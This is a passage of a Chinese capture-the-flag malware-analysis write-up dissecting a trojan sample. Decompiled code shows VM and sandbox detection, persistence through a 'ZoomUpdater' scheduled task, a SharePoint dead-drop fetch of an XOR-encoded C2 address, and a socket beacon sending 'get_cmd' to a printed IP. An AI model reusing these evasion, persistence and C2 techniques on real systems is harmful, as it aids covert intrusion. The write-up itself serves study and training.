  v7 = sub_401D80();
  LOBYTE(v63) = 4;
  sub_403280(v7);
  for ( i = 0; i < v49; ++i )
  {
    v9 = &v48;
    if ( n0xF > 0xF )
      v9 = v48;
    *((_BYTE *)v9 + i) ^= 1u;
  }
  LOBYTE(v63) = 6;
  if ( n0xF_1 > 0xF )
  {
    v10 = v30;
    if ( n0xF_1 + 1 >= 0x1000 )
    {
      v10 = (_BYTE *)*((_DWORD *)v30 - 1);
      v11 = n0xF_1 + 36;
      if ( (unsigned int)(v30 - v10 - 4) > 0x1F )
        goto LABEL_71;
    }
    sub_4066E8(v10);
  }
  LOBYTE(v63) = 7;
  if ( n0xF_2 > 0xF )
  {
    v12 = v28;
    if ( n0xF_2 + 1 >= 0x1000 )
    {
      v12 = (_BYTE *)*((_DWORD *)v28 - 1);
      v11 = n0xF_2 + 36;
      if ( (unsigned int)(v28 - v12 - 4) > 0x1F )
        goto LABEL_71;
    }
    sub_4066E8(v12);
  }
  LOBYTE(v63) = 8;
  if ( n0xF_3 > 0xF )
  {
    v13 = (void *)v35;
    if ( n0xF_3 + 1 >= 0x1000 )
    {
      v13 = *(void **)(v35 - 4);
      v11 = n0xF_3 + 36;
      if ( (unsigned int)(v35 - (_DWORD)v13 - 4) > 0x1F )
        goto LABEL_71;
    }
    sub_4066E8(v13);
  }
  v36 = 0;
  n0xF_3 = 15;
  LOBYTE(v35) = 0;
  LOBYTE(v63) = 9;
  n0xF_5 = n0xF_4;
  if ( n0xF_4 <= 0xF )
    goto LABEL_34;
  v15 = (void *)v32;
  if ( n0xF_4 + 1 >= 0x1000 )
  {
    v15 = *(void **)(v32 - 4);
    v11 = n0xF_4 + 36;
    if ( (unsigned int)(v32 - (_DWORD)v15 - 4) > 0x1F )
    {
LABEL_71:
      sub_40AEAF(v11, 0, 0, 0, 0, 0);
      goto LABEL_72;
    }
  }
  sub_4066E8(v15);
LABEL_34:
  v33 = 0;
  n0xF_4 = 15;
  LOBYTE(v32) = 0;
  v58 = 0;
  v59 = 0;
  sub_4021D0(n0xF_5);
  LOBYTE(v63) = 10;
  if ( (unsigned int)(HIDWORD(v58) - v58 - 48) >= 0x18 )
  {
    v16 = 1;
    goto LABEL_54;
  }
  sub_403280(v58);
  LOBYTE(v63) = 11;
  hSession_1 = (_DWORD *)(v58 + 24);
  v18 = (_DWORD *)sub_40B29E();
  if ( hSession_1[5] > 0xFu )
    hSession_1 = (_DWORD *)*hSession_1;
  *v18 = 0;
  hConnect = (HINTERNET)sub_40BC9D(hSession_1, &hSession, 10);
  if ( hSession_1 == hSession )
LABEL_72:
    sub_40581D("invalid stoi argument");
  if ( *v18 == 34 )
    sub_40585D("stoi argument out of range");
  if ( WSAStartup(0x202u, &lpWSAData_) >= 0 )
  {
    s = socket(2, 1, 0);
    if ( s >= 0 )
    {
      name_ = 0;
      name_.sa_family = 2;
      *(_WORD *)name_.sa_data = htons((u_short)hConnect);
      pszAddrString = (const CHAR *)v46;
      if ( n0xF_6 > 0xF )
        pszAddrString = (const CHAR *)v46[0];
      if ( inet_pton(2, pszAddrString, &name_.sa_data[2]) > 0 )
      {
        if ( connect(s, &name_, 16) >= 0 )
        {
          len = 0;
          n0xF_7 = 0;
          buf_1 = 0;
          sub_4046D0("get_cmd", 7);
          buf = (const char *)&buf_1;
          if ( n0xF_7 > 0xF )
            buf = (const char *)buf_1;
          send(s, buf, len, 0);
          closesocket(s);
          WSACleanup();
          v16 = 0;
          if ( n0xF_7 > 0xF )
          {
            buf_2 = (void *)buf_1;
            if ( n0xF_7 + 1 >= 0x1000 )
            {
              buf_2 = *(void **)(buf_1 - 4);
              v22 = n0xF_7 + 36;
              if ( (unsigned int)(buf_1 - (_DWORD)buf_2 - 4) > 0x1F )
                goto LABEL_74;
            }
            sub_4066E8(buf_2);
          }
          len = 0;
          n0xF_7 = 15;
          LOBYTE(buf_1) = 0;
          goto LABEL_49;
        }
        closesocket(s);
      }
      WSACleanup();
    }
  }
  v16 = 1;
LABEL_49:
  if ( n0xF_6 > 0xF )
  {
    v21 = (void *)v46[0];
    if ( n0xF_6 + 1 >= 0x1000 )
    {
      v21 = *(void **)(v46[0] - 4);
      v22 = n0xF_6 + 36;
      if ( (unsigned int)(v46[0] - (_DWORD)v21 - 4) > 0x1F )
        goto LABEL_74;
    }
    sub_4066E8(v21);
  }
  v46[4] = 0;
  n0xF_6 = 15;
  LOBYTE(v46[0]) = 0;
LABEL_54:
  sub_403180(&v58);
  if ( n0xF > 0xF )
  {
    v23 = v48;
    if ( n0xF + 1 >= 0x1000 )
    {
      v23 = (_BYTE *)*(v48 - 1);
      v22 = n0xF + 36;
      if ( (unsigned int)((char *)v48 - v23 - 4) > 0x1F )
        goto LABEL_74;
    }
    sub_4066E8(v23);
  }
  v49 = 0;
  n0xF = 15;
  LOBYTE(v48) = 0;
  if ( n15 > 0xF )
  {
    v24 = (void *)v52;
    if ( n15 + 1 < 0x1000 || (v24 = *(void **)(v52 - 4), v22 = n15 + 36, (unsigned int)(v52 - (_DWORD)v24 - 4) <= 0x1F) )
    {
      sub_4066E8(v24);
      return v16;
    }
LABEL_74:
    sub_40AEAF(v22, 0, 0, 0, 0, 0);
    JUMPOUT(0x402B4C);
  }
  return v16;
}
```

#### Action 1「窥伺」

`sub_402B60` 是典型的 沙箱/虚拟机 检测和持久化安装的函数。首先，它进行了 虚拟机/沙箱 检测，其中包括：CPUID 虚拟机检测和注册表虚拟化检测。

```c
__asm { cpuid }  // 执行 CPUID 指令
// 检查 CPU 制造商字符串是否包含虚拟化关键词
if (contains(cpuid_string, "VMware") || 
    contains(cpuid_string, "VBox") || 
    contains(cpuid_string, "KVM") || 
    contains(cpuid_string, "Microsoft Hv") || 
    contains(cpuid_string, "Xen")) {
    return 0;  // 检测到虚拟机，立即退出
}
```

```c
// 查询BIOS产品名称
RegOpenKeyExA(HKEY_LOCAL_MACHINE, "HARDWARE\\DESCRIPTION\\System\\BIOS", ...)
RegQueryValueExA(..., "SystemProductName", ...)
if (contains(product_name, "Virtual") ||
    contains(product_name, "VMware") ||
    contains(product_name, "VBox") ||
    contains(product_name, "Hyper-V") ||
    contains(product_name, "Cloud")) {
    return 0;  // 检测到虚拟机，退出
}
```

其次，它进行了系统资源检查，包括：内存检查、CPU 核心数检查和时间延迟检查。

```c
GlobalMemoryStatusEx(&Buffer);
if (HIDWORD(Buffer.ullTotalPhys) >= 2) {
    // 要求至少 2GB 内存（沙箱通常配置较低）
    // Buffer.ullTotalPhys 是 64 位值，HIDWORD 获取高 32 位
}
```

```c
GetSystemInfo(&SystemInfo);
if (SystemInfo.lpParameters >= (LPCWSTR)4) {
    // 要求至少 4 个 CPU 核心
}
```

```c
TickCount64 = GetTickCount64();
Sleep(5000);  // 睡眠 5 秒（0x1388 毫秒）
v8 = GetTickCount64();
// 检查实际经过的时间是否 ≥ 5 秒
// 如果沙箱加速了时间，实际时间会小于 5 秒
```

最终，它检测自身是否已感染计算机：

```c
ShellExecuteExW(&SystemInfo);
SystemInfo.lpFile = L"schtasks";
SystemInfo.lpParameters = L"/query /tn ZoomUpdater";
// 检查名为 "ZoomUpdater" 的计划任务是否存在
```

若无，则进行持久化机制：构造恶意软件路径后，构建计划任务的 XML 命令，并创建计划任务。

```c
SHGetFolderPathW(0, 42, 0, 0, Data);  // 42 = CSIDL_COMMON_APPDATA
// 构建路径：C:\ProgramData\ZoomRemoteControl\bin\ZoomRemoteControl.exe
sub_40AEF0(Data, 260, L"\\ZoomRemoteControl\\bin\\ZoomRemoteControl.exe");
```

```c
// 使用预定义的 xmmword 变量构建 XML 字符串
v20[0] = xmmword_4258D8;  // 第一部分 XML
v20[1] = xmmword_4258E8;  // 第二部分 XML
// ...
sub_40AEF0(v20, 500, Data);   // 插入路径到 XML
sub_40AEF0(v20, 500, &Buffer); // 插入其他参数
```

```c
pExecInfo.lpFile = L"schtasks";
pExecInfo.lpParameters = (LPCWSTR)v20;  // XML参数
ShellExecuteExW(&pExecInfo);  // 执行计划任务创建
```

#### Action 2「初探」

进入到 `sub_402450` 后，该函数展示了木马的 C2 通信逻辑。

```c
hSession = WinHttpOpen(L"Mozilla/5.0 ...", ...); // 伪装成 Edge 浏览器
hConnect = WinHttpConnect(hSession, L"colonised-my.sharepoint.com", 0x1BBu, 0); // 0x1BB = 443 (HTTPS)
hRequest = WinHttpOpenRequest(
   hConnect,
   L"GET",
   L"/personal/f00001111_colonised_onmicrosoft_com/_layouts/52/download.aspx?share=EQsrTSD_4ehGvYTXbmU5zR0B0lk4L-x0r8yGztFlye2j9Q", 
   ...);
```

首先，程序先去访问了一个 SharePoint 共享链接以获得真正的 C2 地址。将地址藏在合法的公共服务上，是为了规避防火墙。

```c
// 读取 SharePoint 返回的数据
WinHttpReadData(hRequest, lpBuffer, ...);
// ...
// 字符串 "lD1bZ0" 和 "E9dE7d" 用于切分字符串
sub_4046D0("lD1bZ0", 6);
sub_4046D0("E9dE7d", 6);
// ...
for ( i = 0; i < v49; ++i ) {
    *((_BYTE *)v9 + i) ^= 1u; // <--- 简单的 XOR 1 解密
}
```

随后，程序下载了该文件，提取出两个字符串中间的数据，并对数据进行 XOR 1，得到了真正的 C2 地址。

#### Action 3「回归」

```c
hSession_1 = (_DWORD *)(v58 + 24); // 应该是解密出来的 Port 字符串
// ... string to int ...
hConnect = (HINTERNET)sub_40BC9D(hSession_1, &hSession, 10); // 转换成端口整数

pszAddrString = (const CHAR *)v46; // 应该是解密出来的 IP 字符串
inet_pton(2, pszAddrString, ...);
connect(s, &name_, 16);

...

if ( connect(s, &name_, 16) >= 0 )
{
  // ...
  sub_4046D0("get_cmd", 7); // 构造发送缓冲区
  buf = (const char *)&buf_1;
  // ...
  send(s, buf, len, 0); // 发送
}
```

接着，程序建立 socket 连接，并发送了一个字符串 `get_cmd`。我们可以进行异或运算得到 IP 地址和端口，但零音尝试多次 XOR 后仍无法得到有效的 IP 地址字符串，怀疑程序可能进行了其他变换，零音未能成功探究。最后，零音选择使用工具「火绒剑」抓包。得到最终的 C2 地址为 `47.252.28.78:37204`。

## Stage IV「获」

访问该地址即可得到 flag。

```plain
ISCTF{Wow!_Y0u_F0uNd_C2_AdDr3sssss!}
```

## 结语

至此，我们完成了对整个 APT 攻击链的完整复盘，成功捕获了最终的 flag。

本次逆向分析对零音而言是全新的知识：MSI Transform 的障眼法即为零音首次听说的反侦查手段，而对 `.dll` 文件的逆向方法，亦是在本次题目中才初次学习。本次逆向中，零音亦学习到了一些分析问题的方法，例如，对于实在无法剖析清楚的部分，如 Stage III 的 Action 3 中对 C2 地址的 XOR 解密，可以采取动态分析的方法，灵活而巧妙地得到答案。

感谢 Gemini 和 DeepSeek 在逆向过程中的帮助。
